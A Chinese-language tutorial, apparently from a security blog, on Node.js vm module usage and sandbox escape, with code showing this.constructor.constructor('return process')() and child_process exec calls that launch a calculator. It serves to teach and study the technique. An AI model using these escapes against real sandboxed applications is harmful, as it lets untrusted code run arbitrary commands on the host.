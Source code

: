 ## NodeJs vm沙箱逃逸

### 沙箱基本概念

> 沙箱是一种安全机制，为运行中的程序提供的隔离环境。通常是作为一些来源不可信、局破坏力或无法判断程序意图的程序提供实验使用
>
> nodejs提供了vm模块来创建一个隔离环境运行不受信任的代码。但是vm模块并不被推荐使用，因为存在逃逸的风险

### vm模块的使用

- **vm.createContext([sandbox])**

将一个沙箱对象作为参数传递给该方法，如果没有参数，默认创建一个空的沙箱对象，沙箱对象不能访问`global`中的属性

- **vm.runInThisContext(code)**

在当前global下创建一个作用域（sandbox），并将接收到的参数当作代码运行

这里需要注意的就是`runInThisContext`虽然是会创建相关的沙箱环境，可以访问到`global`上的全局变量，但是访问不到自定义的变量

![image-20240326140438566](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240326140438566.png)

```javascript
const vm = require('vm');

sx = {
    'name': 'chiling',
    'age': 18
}

// context = vm.createContext(sx)
const result = vm.runInThisContext(`process.mainModule.require('child_process').exec('calc')`);
// console.log(result)
```

这里可以给它传递沙箱对象，也可以不传递

- **vm.runInContext(code, contextifiedSandbox,[options])**

参数为要`执行的代码`和创建完作用域的`沙箱对象`，代码会在传入的沙箱对象的上下文中执行，并且参数的值与沙箱内的参数值相同

**runInContext一定需要createContext创建的沙箱来进行配合运行**

```javascript
const vm = require('vm');

const sandbox = {
};

const context = vm.createContext(sandbox);
const code = 'this.constructor.constructor("return process")();';
const res = vm.runInContext(code, context);
res.mainModule.require('child_process').exec('calc');
```

`this.constructor.constructor`获取`[Function: Function]`得到沙箱外的对象，返回`process`对象，然后用`child_process`进行代码执行
